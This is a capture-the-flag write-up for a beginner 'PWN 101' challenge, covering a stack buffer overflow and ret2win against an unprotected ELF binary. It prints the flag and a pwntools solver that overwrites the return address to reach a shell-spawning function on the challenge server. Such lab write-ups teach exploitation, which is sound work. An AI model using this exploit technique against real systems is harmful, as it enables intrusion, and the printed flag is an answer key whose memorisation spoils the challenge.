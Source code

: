 ```yaml
---
description: 'Author: Fedra'
icon: binary
---
```


# 101 - PWN

FLAG

```
TSA{PWN_101_2d2de462ebe19a876eb74b1c9c053120}
```

## Analysis

We got a file which is ELF 64-bit which when executed it request an input of name. After checking the protection that exist on the file using Checksec, it found that there's no any protection that exist. Then we decompile it using Ghidra and found two interesting function, which is `main` function and `secret` function. Here's a picture of the each function details:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Main Function</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption><p>Secret Function</p></figcaption></figure>

As we can see, that this function of `main` is literally have an array which store our input only up to 128 length as our input. So it could be concluded that this is a classic Buffer Overflow exploitation or ret2win problem. And as of the secret function there's some line of program that execute what we needed which executing the shell for us. Throughout the analyzation that has been done we need the address of the secret function, the return address and the offset.

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption><p>Address of Secret Function</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (2).png" alt=""><figcaption><p>Return Address</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption><p>Offset</p></figcaption></figure>

We need the gadget of return because if we not done so it will receive segmentation fault and not returning the shell to us. After we got all it needed to gain the shell, then make the program using pwntools library to execute the command as it needed to gain the shell. Where the logics that would be implemented on the program are as follows:

1. Create a variable that contains a random character to fill as the known offset of the program before reaching the buffer overflow.
2. then append to the variable which is a return address
3. last but not least, append the address of secret function
4. next send it to the server
5. Voila, we got the shell!!



## Solver Script

```python
from pwn import *
e  = context.binary = ELF('/home/xis/Downloads/pwn')
p = remote('0.cloud.chals.io', 32229)
payload = b'A' * 136
payload += p64(0x40101a)
payload += p64(0x401196)
p.recvuntil(b"[>] Nama: ")
p.sendline(payload)
p.interactive()

```

